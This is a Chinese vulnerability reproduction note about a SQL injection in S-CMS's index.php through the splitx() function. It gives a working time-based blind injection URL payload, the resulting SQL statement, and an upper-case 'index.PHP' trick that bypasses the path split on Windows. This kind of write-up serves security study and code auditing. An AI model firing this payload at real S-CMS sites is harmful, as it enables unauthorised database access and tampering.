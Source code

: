 S-CMS sql注入漏洞（二）
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞位置：`index.php`

![](./.resource/S-CMSsql注入漏洞(二)/media/rId24.jpg)

跟进函数`splitx()`

    function splitx($a, $b, $c)
    {
        $d = explode($b, $a);
        return $d[$c];
    }

先上**payload**

    http://www.0-sec.org/index.PHP/a'%20where%20if(1,sleep(5),1)%23?action=update_dir

拼凑SQL语句

    update TABLE_config set C_dir='index.PHP/a' where if(1,sleep(5),1)#'

**解释**

**\$\_SERVER\['PHP\_SELF'\]**：获取当前文件的路径

> 如：127.0.0.1/xxe/xml.php =\> /xxe/xml.php

**explode(separator,string,limit)**：分割字符串形成数组

> separator：规定在哪里分割字符串。
>
> string：要分割的字符串。
>
> limit：规定所返回的数组元素的数目。

如果使用`index.php`，结果如下：

    array (size=2)
      0 => string '/index.php/' (length=5)
      1 => string '/a' where if(1,sleep(5),1)#' (length=27)

被截断，但若使用`index.PHP`：

    array (size=1)
      0 => string '/index.PHP/a' where if(1,sleep(5),1)#' (length=39)

前提：Windows系统下不区分文件大小写。

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
